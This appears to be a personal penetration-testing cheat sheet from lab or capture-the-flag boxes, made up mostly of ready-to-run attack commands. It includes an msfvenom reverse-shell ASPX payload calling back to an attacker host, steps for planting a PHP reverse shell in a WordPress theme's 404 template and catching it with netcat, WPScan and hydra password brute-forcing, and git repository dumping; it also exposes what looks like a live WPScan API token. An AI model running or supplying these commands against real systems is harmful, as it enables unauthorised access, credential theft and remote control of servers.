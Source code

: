 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx
```
- on cadaver shell, upload to site `put shell.aspx`
```
curl http://192.168.219.122/shell.aspx
```

after adding pilgrimate.htb to /etc/hosts and rescanning with nmap should see http-git
- http-git:
	10.129.32.46:80/.git/
```
git-dumper http://pilgrimage.htb git
```
- download the .git folder

## Wordpress
```
wpscan --url http://internal.thm/blog -e u
```
- enumerate users
```
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```
- bruteforce passwords
```
wpscan --url http://10.10.83.3:80/webservices/wp -e ap --plugins-detection aggressive --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM
```
- `-e ap` enumerates all plugins
- will give huge output if older wp version, scroll to bottom to check for vulnerable plugins
```
wpscan --url http://192.168.109.112:81/ --api-token xLbPu8UpTv2bEWHfDPm8XaQNgO08WsDYjaqJH9bdaQM --usernames /usr/share/nmap/nselib/data/usernames.lst --passwords /usr/share/wordlists/rockyou.txt
```
- bruteforce usernames and passwords (have not successfully used)
#### Once in WP Admin
- go to appearance > theme editor > 404 Template
- put in rev shell from https://github.com/pentestmonkey/php-reverse-shell on revshells.com as PHP PentestMonkey 
	- also try  other PHP shells
- update file
- start `nc -lvnp 6969`
- go to http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	- so copy "wp-content/themes/twentyseventeen/404.php" to url
		- find theme name on theme-editor URL
			- ex: &theme=90s-retro
#### Bruteforce Login page
```
hydra 10.129.222.16 -l dank -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
- must include username `-l dank` even if not using on login
- can also use rockyou
- if targeting port 80 instead of 443, make sure to change `https-post-form` to `http-post-form` and syntax to:
```
hydra -L users.txt -P rockyou_ninja http-post-form://127.0.0.1:9001/index.php:"username=^USER^&password=^PASS^&login=:Login Restricted."
```
- use burp to get data for quotes at the end. 3 pieces of data between `:` includes:
	- relative subdirectory of login page
	- burp query
	- burp response or page response that indicates login failed
 - if seeing a bunch of tries and (0/0) in output, means command is wrong
